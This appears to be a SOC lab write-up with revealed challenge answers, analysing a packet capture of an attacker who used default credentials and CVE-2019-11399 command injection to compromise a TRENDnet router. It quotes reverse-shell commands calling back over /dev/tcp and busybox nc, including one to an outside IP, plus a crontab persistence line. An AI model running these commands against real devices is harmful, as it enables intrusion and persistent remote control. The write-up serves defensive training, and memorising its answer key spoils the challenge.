






## Overview

The SOC team flagged anomalous traffic patterns originating from within the network, specifically targeting the router at `192[.]168[.]10[.]1`. The investigation centres on a PCAP capture from one of the impacted machines. The attacker, already positioned inside the network on `192[.]168[.]10[.]2`, leveraged weak default credentials and a known command injection vulnerability to compromise router firmware and establish persistent access.

---

## Investigation

### Identifying the Target

The router at `192[.]168[.]10[.]1` is the focal point of the alert. Examining the PCAP traffic, we can observe a series of HTTP requests directed at its management interface.


Drilling into the device details, the router is identified as a **TRENDnet TEW-652BRU running firmware version 1.00b1** — an end-of-life device with no available patches for the vulnerability exploited here.


### Initial Access — Default Credentials

The first hurdle for the attacker was authentication. The router was secured with default credentials, and the attacker logged straight in using `admin:admin`.


### Exploitation — CVE-2019-11399

With access to the management interface, the attacker turned to **CVE-2019-11399**, a command injection vulnerability in the TRENDnet TEW-652BRU CGI endpoint. The vulnerable URL is:

`hxxp[://]192[.]168[.]10[.]1/get_set[.]ccp`

Commands are injected through the `lanHostCfg_HostName_1.1.1.0.0` parameter, which is passed unsanitised to the underlying shell. An initial `whoami` confirmed remote code execution was live.



The attacker ran a proof-of-concept command — `mkdir test` — at **2025-01-22 14:37:59** to confirm arbitrary command execution.


### Reverse Shell Establishment

With RCE confirmed, the attacker made several attempts to call back a reverse shell. Two approaches using `bash` and `sh` TCP redirects failed — likely due to the stripped-down busybox environment on the router firmware:

```
bash -i >& /dev/tcp/3[.]125[.]48[.]181/13337 0>&1 &
sh -i >& /dev/tcp/192[.]168[.]10[.]2/4444 0>&1 &
```

The working method leveraged `firmadyne`'s bundled `busybox` binary, writing a shell script to `/tmp` and executing it:

```
echo "~/firmadyne/busybox nc 192.168.10.2 4444 -e /bin/sh" > /tmp/shell.sh
sh /tmp/shell.sh
```

The reverse shell connected back to `192[.]168[.]10[.]2` on port `4444` at **2025-01-22 14:42:25**, captured by filtering `tcp.dstport == 4444`.



### Post-Exploitation

The first command issued over the shell was `whoami` — standard access verification. The attacker then immediately planted persistence via a crontab entry:

```
echo "@reboot /tmp/shell.sh" >> /etc/crontab
```

This ensures the reverse shell respawns on every router reboot, maintaining access across power cycles.

---

## IOCs

|Type|Value|
|---|---|
|IP — Router|`192[.]168[.]10[.]1`|
|IP — Attacker (internal)|`192[.]168[.]10[.]2`|
|IP — C2 (external, failed attempt)|`3[.]125[.]48[.]181`|
|Vulnerable URL|`hxxp[://]192[.]168[.]10[.]1/get_set[.]ccp`|
|Injected parameter|`lanHostCfg_HostName_1.1.1.0.0`|
|Persistence script|`/tmp/shell.sh`|
|CVE|CVE-2019-11399|


---

<div class="qa-item"> <div class="qa-question-text">1) As the SOC analyst investigating the alert, your first step is to examine the network environment. What is the IP address of the router where the alert originated? (Format: XXX.XXX.XX.X)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">192.168.10.1</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">2) After identifying the router, we need to document its details for the baseline report and check if it’s not patched. What is the router's model number and version? (Format: Model_Version)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">TEW-652BRU_1.00b1</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">3) The logs suggest unauthorized access to the router. Can you identify the username and password the attacker used to gain access? (Format: username:password)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">admin:admin</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">4) By reviewing the internal network activity, determine the IP address of the machine the attacker used to exploit the router’s firmware. (Format: XXX.XXX.XX.X)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">192.168.10.2</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">5) During the analysis, you pinpoint the vulnerable endpoint used in the attack. What is the full URL of the compromised endpoint? (Format: URL)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">http://192.168.10.1/get_set.ccp</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">6) While analyzing the attacker’s payloads, which parameter was manipulated to exploit the system? (Format: Parameter)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">lanHostCfg_HostName_1.1.1.0.0</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">7) Correlating with the CVE database, identify the specific CVE the attacker used in this incident. (Format: CVE-XXXX-XXXXX)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">CVE-2019-11399</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">8) In the exploitation phase, the attacker executed their first command on the router firmware. What was this command? (Format: Command)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">mkdir test</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">9) To build an accurate timeline of events, identify the exact timestamp when the CVE was first exploited. (Format: YYYY-MM-DD HH:MM:SS)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">2025-01-22 14:37:59</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">10) The attacker made several unsuccessful attempts to establish a reverse shell. Finally, they succeeded. What command did they use to successfully establish the reverse shell? (Format: Command)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">"~/firmadyne/busybox nc 192.168.10.2 4444 -e /bin/sh"</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">11) Using the PCAP file, determine the exact timestamp when the attacker successfully established communication with the reverse shell. (Format: YYYY-MM-DD HH:MM:SS)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">2025-01-22 14:42:25</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">12) After establishing the reverse shell, the attacker issued a command to assess their access level. What was the first command executed? (Format: Command)</div> <div class="answer-reveal"> <input type="checkbox"> <span class="r-placeholder">Click to reveal answer</span> <span class="r-answer">whoami</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

<div class="qa-item"> <div class="qa-question-text">13) The attacker implemented a persistence technique to maintain access. What command did they use to achieve this? (Format: Command)</div> <div class="flag-reveal"> <input type="checkbox"> <span class="r-placeholder">Click flag to reveal</span> <span class="r-answer">echo "@reboot /tmp/shell.sh" >> /etc/crontab</span> <button class="copy-btn" onclick="event.stopPropagation();navigator.clipboard.writeText(this.previousElementSibling.textContent);this.textContent='copied';setTimeout(()=>this.textContent='copy',1500)">copy</button> </div> </div>

